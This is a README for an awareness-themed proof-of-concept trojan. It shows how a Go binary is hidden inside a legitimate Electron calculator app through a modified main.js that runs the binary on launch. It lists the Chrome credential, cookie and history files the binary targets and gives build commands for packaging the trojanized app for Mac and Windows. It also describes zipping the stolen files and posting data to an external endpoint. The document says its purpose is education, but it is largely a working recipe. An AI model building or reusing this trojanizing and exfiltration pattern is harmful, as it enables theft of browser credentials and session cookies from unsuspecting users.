



# trojan-malware-poc

Proof of concept of a simple trojan to raise awareness about running programs downloaded from the internet.

Locates Chrome Browser local files on your computer, copies and zips the files to temporary folder on your computer, then sends a `readme` file and your Google Chrome Profile picture to a dummy endpoint on `https://beeceptor.com/` with a randomly generated url.


**Disclaimer: This project was created for educational and research purposes only. To explore more about information security, ethical hacking, penetration testing, security in general and raise awareness about this issues. The misuse of the information in this project can result in criminal charges brought against the persons in question. I hold no liability or responsibility in the event any criminal charges be brought against any individuals misusing the information in this project to break the law. You shall not misuse this information to gain unauthorized access to data which you do not own or have no permission to access.**

The project consists in two parts:
- GO script (`main.go` and `pkg/utils.go`), which is the actual trojan and builds a binary
- Legit Electron App (`calcy-electron-app` folder) modified to call the trojan binary upon start

## Calcy Electron App
The App inside the folder "calcy-electron-app" was copied from it's original repo and was not done by me. I just modified the app to call the malware binaries upon running.
I decided to hide the binaries generated by the GO program in a real electron app. Searched github for a basic electron app, and found [this calculator project by VarunDevPro](https://github.com/VarunDevPro/calcy) which **is a legit project, not done by me, and not related to malware in any way.**

I just modified the project with two very simple steps, created the `/bin` folder inside the project to store the proof of concept binaries, and then modified `main.js` in order to execute the correct binary when the app is opened:
```javascript
app.on('ready', () => {
  var file_to_open;
  // execute the correct binary
  switch (process.platform) {
    case 'win32':
      file_to_open = 'poc.exe'
      break;
    case 'darwin':
      file_to_open = 'poc';
      break;
    default:
      file_to_open = 'poc.elf';
  }

  execFile(process.resourcesPath + '/../bin/' + file_to_open, function (error, stdout, stderr) {
    if (error) {
      console.log('Error code: '+error.code);
    }
  });
```

## Usage

**Windows or MacOs**
```sh
go run main.go
```

**MacOS**
Build and run malware without electron app:
```sh
go build -ldflags "-s -w" -trimpath -o poc
./poc
```

Build electron app with malware inside:
```sh
mkdir ./calcy-electron-app/bin/
go build -ldflags "-s -w" -trimpath -o ./calcy-electron-app/bin/poc
env GOOS=windows go build -ldflags "-s -w" -trimpath -o ./calcy-electron-app/bin/poc.exe
cd calcy-electron-app
npm run build-mac
npm run build-win-portable
```

Builds can be found in `./calcy-electron-app/dist/`.

## The Program

1. First enumerate the files to target, and specify the path for Mac and Windows:

```go
var files = []string{
	"Google Profile Picture.png",
	"Login Data",
	"Cookies",
	"History",
	"Bookmarks",
}
const mac_path = "/Library/Application Support/Google/Chrome/Default/"
const win_path = "\\AppData\\Local\\Google\\Chrome\\User Data\\Default\\"
```

For curiosity purposes, I recommend that you try to open this files with (SQLite Browser)[https://sqlitebrowser.org/] and look at the information they contain.

2. Then check for the current OS and call `exploit()` method with the following parameters: `os_path string, tmp_folder string, is_win bool`. `os_path` changes depending on the OS, the `tmp_folder` path changes to, and `is_win` is just a hacked flag to modify the behavior of some methods specifically for windows.

3. Create the temporary folder:
    - Windows: `C:\Users\USER\AppData\Local\Temp\trust_me`
    - MacOS: `~/tmp/trust_me/`

4. Copy the files to the temporary folder and zip them, for this PoC, only your profile picture and a readme are zipped (as the zip file will be posted to the endpoint), keep in mind that all the files could be zipped and sent, this was a decision for privacy purposes and not a limitation. The zip file is called `your_secrets.zip`. A `readme.txt` is also created with the following text:
```
This is just an example of what could be easily stolen from you,
all the contents in this folder were copied from your computer to here.
A zip was created with your picture and this readme file, and uploaded to a dummy endpoint.
Only you know this url, and you need to have the browser open to receive the http post content,
as soon as you close it the info will be gone.
If you see the information on your browser, any attacker could have gotten that info.
This project only purpose is to raise awareness on how easily it is to steal your private information.

Be mindfull of what you download and execute.

url: https://beeceptor.com/console/MfMtAUutnDpaYjFgdnOyhyBThehcJgmsbJdgjFDM

folder: /tmp/trust_me/
```


5. Generate a dummy endpoint, I'm using [Beeceptor](https://beeceptor.com/) for this, this service allows you to create a disposable endpoint. You can post any data to `https://beeceptor.com/console/{random_generated_string}` and you only receive the data if you have the browser open on that url at the moment of when the data is posted. If you refresh the page, the data is gone. So although it would be possible for someone to receive your data (if someone is using the same randomly generated string) it would be very unlikely as the string is 40 characters long.

6. After generating the url and zipping the files, send a terminal command to open the browser on that url. Wait for 3 seconds, to give the browser time to load. And then post the files to that url. At this moment you will see 2 requests popping up, and thats your data.



### Virus Total Report

**Windows Electron App .Exe with binary inside**


**Mac malware binary**


### In Conclusion, be mindful of what you download, be mindful from where you download, be mindful of what you execute on your computer. 

### The best defense against malware is YOU.